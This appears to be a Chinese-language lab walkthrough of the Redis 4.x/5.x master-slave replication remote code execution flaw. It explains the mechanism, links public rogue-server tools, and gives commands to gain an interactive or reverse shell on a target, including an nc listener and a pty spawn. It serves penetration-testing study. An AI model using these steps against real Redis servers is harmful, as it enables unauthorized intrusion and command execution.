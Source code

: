 ## 2.1 漏洞原理
漏洞存在于Redis 4.x、5.x版本中，Redis提供了主从模式，主从模式指使用一个redis作为**主机**，其他的作为**备份机**，主机从机的数据都一样，从机负责读，主机只负责写，通过读写分离来大幅度减轻流量的压力，相当于通过牺牲空间来换取效率的缓解方式。
从机定期从主机拿数据，特殊的，一个从机还可以设置为另一个redis server的主机，这样就是一个有向无环图，形成redis-server集群。
在redis 4.x 之后，通过外部拓展可以在redis中实现一个新的Redis命令，通过写c语言，来编译出.so文件。
在两个Redis实例设置主从模式的时候，Redis的**主机**实例可以通过FULLRESYNC同步文件到**从机**上。然后在**从机**上加载恶意so文件，即可执行命令。
## 2.2 漏洞版本
> Redis 4.x、5.x版本

## 2.3 下载工具
[redis-rogue-server工具](https://github.com/n0b0dyCN/redis-rogue-server)
 -- 该工具无法对Redis密码进行Redis认证，也就是说该工具只适合目标存在Redis未授权访问漏洞时使用。

[Awsome-Redis-Rogue-Server工具](https://github.com/Testzero-wz/Awsome-Redis-Rogue-Server)
 -- Redis存在密码可以使用该工具
 -- 设置密码：redis.conf中的 `requirepass foobared` 
 -- 将 `redis-rogue-server` 的 `exp.so` 复制到 `Awsome-Redis-Rogue-Server` 文件夹下

## 2.4 利用过程
### 2.4.1 未授权访问（空密码）
#### 1、redis-rogue-server 交互式shell
到redis-rogue-server-master/ 目录下
执行命令：
`python3 redis-rogue-server.py --rhost 靶机ip --lhost 攻击方ip`

`ifconfig`命令可正常使用：

![image](https://user-images.githubusercontent.com/84888757/160878148-b8474e5f-b66a-4c3b-b730-100d65ca5149.png)

#### 2、redis-rogue-server 反弹shell

1、kali开启监听：
`nc -lvvp 2222`

2、到redis-rogue-server-master/ 目录下
执行命令：
`python3 redis-rogue-server.py --rhost 靶机ip --lhost 攻击方ip --lport 攻击方端口`

![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637650022763-4d08e391-d9ba-4d09-9c90-af28181f55fc.png#clientId=u9ca82c02-4aec-4&from=paste&height=317&id=u97606823&margin=%5Bobject%20Object%5D&name=image.png&originHeight=423&originWidth=1141&originalType=binary&ratio=1&size=92597&status=done&style=none&taskId=u4b47df93-fb65-4556-9e47-332de068b1d&width=856)

3、获取到shell
`ifconfig`命令无法正常执行：

![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637649974604-9f31418e-df92-4905-858d-11e58bf2f4f9.png#clientId=u9ca82c02-4aec-4&from=paste&id=u88ccee8c&margin=%5Bobject%20Object%5D&name=image.png&originHeight=188&originWidth=818&originalType=binary&ratio=1&size=30756&status=done&style=none&taskId=u0b88ed5d-5daf-4223-b609-5a9ccd381a5)

已接收到反弹的shell，可以直接执行命令，或者使用python进入交互式命令执行界面。
`python3 -c "import pty;pty.spawn('/bin/bash')"`
或
`python -c "import pty;pty.spawn('/bin/bash')"`
